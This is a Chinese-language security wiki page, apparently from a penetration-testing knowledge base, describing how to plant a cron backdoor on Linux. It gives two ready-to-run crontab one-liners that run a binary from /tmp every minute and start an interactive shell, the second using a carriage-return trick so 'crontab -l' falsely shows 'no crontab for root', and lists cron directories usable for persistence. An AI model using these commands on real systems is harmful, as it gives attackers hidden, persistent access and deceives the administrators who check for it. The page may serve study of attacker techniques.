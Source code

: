 # Cron后门

**Cron介绍**

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

**Cron后门**

> cron表达式在线生成：

http://qqe2.com/cron

```bash
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab -

```

![](images/security_wiki/15905489549679.png)


这样执行会在crontab列表里出现，如果是如上执行的话，管理员执行crontab -l就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示”no crontab for root”。其实就达到了一个隐藏的效果，这时候管理员如果执行crontab -l就会看到显示”no crontab for root”。

```bash
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

```

![](images/security_wiki/15905489620860.png)


实际上是他将cron文件写到文件中。/var/spool/cron/crontabs/root 。而crontab -l就是列出了该文件的内容。

通常cat是看不到这个的，只能利用less或者vim看到，这也是利用了cat的一个缺陷，后面会讲到。

![](images/security_wiki/15905489692429.png)


/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 这几个路径都可以存放cron执行脚本,对应的时间不同。

